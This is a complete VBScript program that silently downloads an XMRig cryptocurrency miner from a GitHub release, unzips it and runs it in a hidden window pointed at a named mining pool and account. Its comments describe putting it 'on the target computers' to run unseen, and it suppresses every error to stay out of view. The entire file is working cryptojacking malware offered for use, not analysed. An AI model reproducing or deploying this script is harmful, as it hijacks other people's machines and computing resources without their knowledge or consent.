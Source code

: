' ====================================================================================
' VBScript to Download, Unzip, and Run XMRig Silently (v3 - Completely Silent)
'
' Description:
' This script automates the process of deploying the XMRig miner. It runs
' without any visible output, pop-ups, or error messages.
' 1. Downloads the XMRig zip file from the specified URL.
' 2. Saves the zip file to the same directory as the script.
' 3. Extracts the contents of the zip file.
' 4. Runs xmrig.exe in a hidden window with the specified configuration.
'
' Usage:
' 1. Save this code as a .vbs file (e.g., start_miner.vbs).
' 2. Place it in the desired directory on the target computers.
' 3. Execute the script. It will run completely in the background.
' ====================================================================================

Option Explicit

' --- Configuration ---
Dim downloadUrl, zipFileName, extractedFolderName, exeName, minerArgs
downloadUrl = "https://github.com/yeasin-the-king/the-tvhbes/releases/download/tvhbes/xmrig-6.24.0-windows-x64.zip"
zipFileName = "xmrig-6.24.0-windows-x64.zip"
extractedFolderName = "xmrig-6.24.0"
exeName = "xmrig.exe"
minerArgs = "-o tari-s.h9.com:17769 -u tarirxt0-bcb4-df35-40fd-e71025801830 -p mcj -a rx/0 -k --donate-level 1 --log-file=xmrig_output.txt"

' --- Script Objects ---
Dim http, stream, fso, shell, scriptPath, zipFilePath, extractPath, exePath, command

' --- Error Handling ---
On Error Resume Next

' --- Get Current Script Path ---
Set fso = CreateObject("Scripting.FileSystemObject")
scriptPath = fso.GetParentFolderName(WScript.ScriptFullName)

zipFilePath = fso.BuildPath(scriptPath, zipFileName)
extractPath = fso.BuildPath(scriptPath, "") ' Extract to the root of the script path
exePath = fso.BuildPath(fso.BuildPath(scriptPath, extractedFolderName), exeName)

' --- Step 1: Download XMRig using WinHttpRequest for better reliability ---
Set http = CreateObject("WinHttp.WinHttpRequest.5.1")
If Err.Number <> 0 Then WScript.Quit

' Set timeouts (in milliseconds)
http.SetTimeouts 10000, 30000, 60000, 60000

http.Open "GET", downloadUrl, False
http.Send

If http.Status = 200 Then
    Set stream = CreateObject("ADODB.Stream")
    stream.Open
    stream.Type = 1 ' Binary
    stream.Write http.ResponseBody
    stream.SaveToFile zipFilePath, 2 ' Overwrite if exists
    stream.Close
    Set stream = Nothing
Else
    WScript.Quit
End If
Set http = Nothing

' --- Step 2: Extract the Zip File ---
Set shell = CreateObject("Shell.Application")

' Check if the zip file exists before trying to extract
If fso.FileExists(zipFilePath) Then
    Dim zipFolder, destFolder
    Set zipFolder = shell.NameSpace(zipFilePath)
    Set destFolder = shell.NameSpace(extractPath)
    
    ' The 20 argument means "Yes to All" for any overwrite prompts.
    destFolder.CopyHere zipFolder.Items, 20
Else
    WScript.Quit
End If

' --- Step 3: Run XMRig Silently ---
' Check if xmrig.exe exists after extraction
If fso.FileExists(exePath) Then
    ' Build the full command to execute
    command = """" & exePath & """ " & minerArgs
    
    ' Use WScript.Shell's Run method.
    ' The second argument '0' runs the program in a hidden window.
    ' The third argument 'False' makes the script not wait for the program to finish.
    Set shell = CreateObject("WScript.Shell")
    shell.Run command, 0, False
Else
    WScript.Quit
End If

' --- Step 4: Clean up (Optional) ---
' To enable cleanup, remove the leading apostrophe from the lines below.
' If fso.FileExists(zipFilePath) Then
'     fso.DeleteFile zipFilePath
' End If

' --- Release Objects ---
Set fso = Nothing
Set shell = Nothing

' --- End of Script ---
WScript.Quit
